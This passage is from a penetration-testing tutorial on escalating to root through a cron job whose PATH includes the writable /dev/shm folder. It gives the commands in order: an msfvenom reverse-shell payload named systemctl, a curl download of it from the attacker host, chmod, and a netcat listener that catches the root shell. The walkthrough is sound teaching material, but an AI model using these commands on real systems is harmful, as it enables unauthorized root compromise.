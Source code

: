 Here we see “w” across the board, which means we can write in this directory.

> **/dev/shm** is similar to **/tmp** in that it is a universal world writable directory.

Putting it all together, we have a cron job running every minute as root, executing the **systemctl** command without the absolute PATH, and a writable directory earlier in the cron PATH than where the binary executes from.

To exploit this cron job, all we have to do is craft a malicious payload named “systemctl” and drop it in the **/dev/shm** folder.

Afterwards, when the cron job runs, it will ride the cron PATH to search for the **systemctl** binary. Since **/dev/shm** is at the front of the PATH, it will stop there first and run our malicious payload instead of executing the legitimate **systemctl** binary from **/usr/bin**.

So now, our next objective is to craft a malicious binary named “systemctl”.

## Setting up the Exploit and Getting a Root Shell

Heading over to our attacker machine, we can craft a malicious binary and name it systemctl using **msfvenom**.

```shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=172.16.1.30 LPORT=443 -a x64 -f elf -o systemctl
```

![](https://juggernaut-sec.com/wp-content/uploads/2023/03/image-376.png)

Now that our payload has been created, we can download it onto the victim machine.

Earlier we setup an HTTP server in our working directory to download LinPEAS onto the victim host. We can use this to download our payload onto the victim now as well.

On the victim machine, change directories to the /dev/shm directory and then download the payload.

```shell
cd /dev/shm
curl 172.16.1.30/systemctl -o systemctl
```

![](https://juggernaut-sec.com/wp-content/uploads/2023/03/image-387.png)

Here we can see the exploit downloaded successfully; however, it is still not ready. In order for the cron job to execute our binary, we need to give is execute permissions.

```shell
chmod 755 ./systemctl
```

![](https://juggernaut-sec.com/wp-content/uploads/2023/03/image-388.png)

Perfect! The payload is ready and should trigger every minute. All that is left to do is start a netcat listener on out attacker machine and grab the root shell next time the cron job runs.

And in less than a minute. a root shell checks in!

![](https://juggernaut-sec.com/wp-content/uploads/2023/03/image-381.png)
